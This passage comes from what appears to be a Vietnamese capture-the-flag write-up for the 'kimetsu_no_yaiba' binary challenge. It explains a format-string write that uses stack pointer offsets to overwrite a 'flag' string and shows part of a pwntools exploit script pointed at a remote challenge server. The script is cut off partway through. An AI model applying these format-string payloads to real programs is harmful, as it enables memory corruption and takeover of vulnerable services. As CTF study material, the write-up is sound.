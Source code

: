 ```py

def get_turn():
    P.sendlineafter(b'n)', b'y')
    name(b'%11$naaa' + p64(turn_stack))
    #Boss 2 : x8
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
    skill(0x11111111)
```
##Stage 2:

Sau khi khiến trò chơi lặp vô hạn, việc còn lại ta cần làm chỉ là ghi đè chuỗi "flag" vào chương trình.
Chú ý là lúc khiến trò chơi lặp vô hạn, biến đếm Boss sẽ dừng ở 2 và không tiếp tục gọi hàm read_boss nữa, vì vậy ta cần overwrite lại biến này để đọc "flag" vào payload cuối cùng.

Tới đây mình nhận ra để tiết kiệm số byte cần dùng và ghi được một giá trị lớn, ta có thể tận dụng vào những giá trị ở trong stack.
Quan sát stack values, mình tìm được một pointer ở offset 20 trỏ đến một pointer khác ở offset 52. Vì vậy nếu ta tận dụng format string vào offset 20, ta có thể ghi địa chỉ của chuỗi cần chỉnh sửa vào offset 52, và tiếp tục format string vào offset 52 để ghi chuỗi "flag" vào địa chỉ đó.

## <a id="exploitation"></a> Bem nó

Script hoàn chỉnh:

```python
from pwn import *

####################
#### CONNECTION ####
####################
LOCAL = False
REMOTETTCP = True

LOCAL_BIN = './kimetsu_no_yaiba'

if LOCAL:
    P = process(LOCAL_BIN)

elif REMOTETTCP:
    P = remote('125.235.240.166', 33333)

##########################


##### FUNCTION ######
##########################

def name(name):
    P.sendafter(b': ', name)


def attack(page_index):
    P.sendlineafter(b'> ', b'1')


def skill(strength):
    P.sendlineafter(b'> ', b'2')
```
